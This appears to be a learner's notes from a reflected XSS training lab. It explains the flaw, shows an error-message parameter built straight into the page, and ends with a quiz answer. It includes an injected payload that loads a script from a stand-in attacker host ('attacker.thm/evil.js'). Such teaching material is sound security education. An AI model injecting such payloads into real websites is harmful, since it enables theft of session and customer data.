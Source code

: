 # Reflected XSS

- Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

## Example Scenario

- A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.
  
  ![Screenshot (823)](https://user-images.githubusercontent.com/63872951/183879680-f1aa6a93-8be2-4097-9440-8156d8b14488.png)

  ```
  <div class="alert alert-danger">
    <p>Invalid Input Detected</p>
  </div>
  ```
  
- The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.
  
  ![Screenshot (824)](https://user-images.githubusercontent.com/63872951/183879978-45148e11-ae2c-4b71-b1d0-e6fc0ff77f55.png)

  
  ```
  <div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
  </div>
  ```
  
## Potential Impact:

- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

## How to test for Reflected XSS:

- You'll need to test every possible point of entry; these include:

    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

- Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected. 

# Answer the questions below

 1. Where in an URL is a good place to test for reflected XSS?
```
Parameters
```

